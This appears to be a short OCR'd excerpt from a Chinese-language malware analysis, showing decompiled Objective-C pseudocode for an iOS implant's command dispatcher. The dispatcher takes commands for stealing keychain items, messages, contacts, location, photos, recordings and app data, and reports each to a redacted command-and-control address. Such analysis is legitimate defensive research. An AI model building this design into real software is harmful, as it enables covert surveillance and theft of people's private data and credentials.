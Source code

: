每个附带的命令依次传递给[Service doCommand] ：

```
-[Service doCommand:cmd_dict] `{`
  cmd_str_raw = [cmd_dict objectForKeyedSubscript:@"cmd"]

  cmd_str = [cmd_str_raw stringByTrimmingCharactersInSet:
               [NSCharacterSet whitespaceAndNewlineCharacterSet]];

  if ([cmd_str isEqualToString:@"systemmail"]) `{`
    [self requestSystemMail];
  `}` else if([cmd_str isEqualToString:@"device"]) `{`
    [self uploadDevice];
  `}` else if([cmd_str isEqualToString:@"locate"]) `{`
    [self requestLocation];
  `}` else if([cmd_str isEqualToString:@"contact"]) `{`
    [self requestContact];
  `}` else if([cmd_str isEqualToString:@"callhistory"]) `{`
    [self requestCallHistory];
  `}` else if([cmd_str isEqualToString:@"message"]) `{`
    [self requestMessage];
  `}` else if([cmd_str isEqualToString:@"notes"]) `{`
    [self requestNotes];
  `}` else if([cmd_str isEqualToString:@"applist"]) `{`
    [self requestApps];
  `}` else if([cmd_str isEqualToString:@"keychain"]) `{`
    [self requestKeychain];
  `}` else if([cmd_str isEqualToString:@"recordings"]) `{`
    [self requestRecordings];
  `}` else if([cmd_str isEqualToString:@"msgattach"]) `{`
    [self requestSmsAttachments];
  `}` else if([cmd_str isEqualToString:@"priorapps"]) `{`
    if (!self-&gt;_defaultList) `{`
      self-&gt;_defaultList = [Util appPriorLists]
    `}`
    [self requestPriorAppData:self-&gt;_defaultList]
  `}` else if([cmd_str isEqualToString:@"photo"]) `{`
    [self uploadPhoto];
  `}` else if([cmd_str isEqualToString:@"allapp"]) `{`
    dispatch_async(_dispatch_main_q, ^(app)
      `{`
        [self requestAllAppData:app]
      `}`);
  `}` else if([cmd_str isEqualToString:@"app"]) `{`
    // parameter should be an array of bundle ids
    data = [cmd_dict objectForKey:@"data"]
    if ([data count] != 0) `{`
      [self requestPriorAppData:data]
    `}`
  `}` else if([cmd_str isEqualToString:@"dl"]) `{`
    [@"/tmp/evd." stringByAppendingString:[[[NSUUID UUID] UUIDString] substringToIndex: 4]]
    // it doesn't actually seem to do anything here
  `}` else if([cmd_str isEqualToString:@"shot"]) `{`
    // nop
  `}` else if([cmd_str isEqualToString:@"live"]) `{`
    // nop
  `}`

  cs = [NSCharacterSet whitespaceAndNewlineCharacterSet];
  server = [@"http://X.X.X.X:1234" stringByTrimmingCharactersInSet:cs];

  full_url_str = [server stringByAppendingString:@"/list/suc?name="];
  url = [NSURL URLWithString:[full_url_str stringByAppendingString:cmd_str]];
  NSLog(@"s_url: %@", url)
```